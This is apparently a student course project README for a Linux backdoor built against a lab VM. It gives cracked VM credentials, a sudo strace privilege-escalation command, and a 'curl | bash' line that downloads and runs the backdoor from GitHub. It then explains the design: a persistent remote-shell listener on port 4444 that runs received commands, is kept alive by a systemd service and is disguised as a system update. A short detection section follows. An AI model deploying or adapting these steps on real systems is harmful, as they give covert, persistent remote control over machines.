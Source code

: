 # Project

File Overview
Bash Scripts (Deployed on Target):

- backdoor: Deployment script

- sys-upd: Downloads and executes the server

- sys-upd.service: systemd service unit file

Python Scripts:

- sys.py: Backdoor listener (server side)

- access.py: Client interface (run from attacker machine)

A) how to install it in the week4 virtual machine,

Enable the host to communicate with the VM over port 4444, add this rule in VirtualBox:

Go to Settings > Network > Adapter 1 → click Port Forwarding

Add the following rule:
Name: backdoor-link
Protocol: TCP
Host IP: 127.0.0.1
Host Port: 4444
Guest IP: (leave blank or default)
Guest Port: 4444

___________________________________

ssh into the week4 virtual machine
User: user
Password: hill

Note: (I analyzed the .pcapng file in Wireshark and identified an HTTP response containing user data. A hashed password for the user user stood out. Using John the Ripper with the rockyou.txt wordlist, I successfully cracked the hash and retrieved the password: hill.)

___________________________________


To escalate privileges use this command:

Command:sudo strace -o /dev/null /bin/bash
Command: cd (Change Directory)
Command: curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bash/backdoor | bash

___________________________________


Once this done, Clone the reopsitory in your system and navigate from terminal to Python folder directory and run 
`python sys.py`

B) how your backdoor works internally

Our backdoor operates by deploying a persistent listener on the target machine using a Bash script (sys-upd) managed by a systemd service (sys-upd.service). This script opens TCP port 4444 and runs the Python server (sys.py) which continuously listens for incoming connections. 

When a connection is received, it prompts for a password (week4) to authenticate the client. Upon successful login, the server receives and executes shell commands from the client (access.py) and sends back the results. 

All communication is socket-based and occurs over the specified port, enabling the attacker to remotely control the host shell in real time while maintaining persistence across reboots.

___________________________________

C) how your backdoor works internally

1. Remote Shell Access

- The sys.py script binds to port 4444 and listens for incoming connections. Once authenticated, it enters a loop waiting for shell commands from the attacker. The command is executed via subprocess.Popen() and results are sent back to the attacker.

2. Persistence

Persistence is achieved using a systemd service (sys-upd.service). The backdoor is enabled to auto-start on boot using systemctl enable sys-upd, ensuring the listener runs continuously.

3. Configuration to get commands from:

Commands are received over the network socket (TCP on port 4444). The sys.py server waits for incoming commands from the client and executes them directly.

4. Authentication

The backdoor requires a password (week4) before allowing shell access. If the password is incorrect, the connection is closed and access is denied.

5. Hiding from Detection

The backdoor is disguised as a system update script: sys-upd. It is placed in the /root directory and registered as a systemd service with a generic name.. Minimal console output and error handling are included to avoid raising suspicion.

___________________________________

D) ideas on how yourbackdoor could be detected.

The backdoor can be detected using tools like Wireshark by identifying unusual traffic on port 4444.It may also be exposed through system audits by spotting suspicious services like sys-upd.service or by detecting scripts fetched from GitHub. Security tools or EDRs could flag the listener's behavior of executing remote shell commands.